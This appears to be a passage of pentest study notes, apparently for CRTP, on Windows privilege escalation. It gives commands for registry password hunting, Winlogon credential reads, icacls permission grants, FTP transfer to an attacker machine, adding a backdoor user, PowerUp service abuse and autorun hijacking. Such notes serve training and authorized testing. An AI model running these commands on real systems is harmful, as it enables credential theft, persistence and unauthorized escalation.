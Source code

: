   1- run 'systeminfo' and save it into a <sysinfo.txt>
  2- download and extract the tool from Git Hub.
  3- install pip if you don't have it --> curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py; python get-pip.py && pip install xlrd --upgarde
  4- Update the database --> ./windows-exploit-suggester.py --update
  5- ./windows-exploit-suggester.py --database <updatedDB.xls> --systeminfo <sysinfo.txt>
  
- Stored Passwords
- check the registry. you may find a default password
-     reg query HKLM /f password /t REG_SZ /s
- if you find any default password run the following
-     reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
- if SSH is running on the system use the found credentials to login

**keep in mind to check the permissions in windows like icacls, icacls root.txt /grant <username>:F (this will grant full access to a file)**
transferring a file in windows using pyftpdlib
-     python -m pyftpdlib 21 (attacker machine)
-     ftp 10.0.2.10
Add a user
-     net user raman to0or /add

### After running powerup always check AbuseFuncion
For example you got the following
```
AbuseFuncion : Invoke-ServiceAbuse -Name '<ServiceName>'
```
use help with example to check the example
```
help Invoke-ServiceAbuse -Examples
Invoke-ServiceAbuse -Name "AbyssWebServer" -UserName "dcorp\student407"
```

you can use the below tools for complete coverage
- PowerUp   https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- Privesc   https://github.com/enjoiz/Privesc
- winPEAS   https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

# <span style="color:lightblue">Autorun</span>

## <span style="color:lightgreen">Methodology</span>

Some programs are determined by the system administrator to run as soon as the system starts, so we assume that if we have a program we can modify it so that we add our own malicious file in place of the program. The first time the system is restarted, the first user to log in to the system will run the malicious file according to its authority.

### Using Autoruns and AccessChk
1. Transfer [Autoruns64.exe]([https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns](https://learn.microsoft.com/en-us/sysinternals/downloads/autoruns)) on the Windows/AD machine and execute it on cmd
```console
C:\Temp> Autoruns64.exe
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/91e45f42-3bf4-4503-a88d-b5ec77207f3b)
2. In Autoruns, click on the `"Logon"` tab.
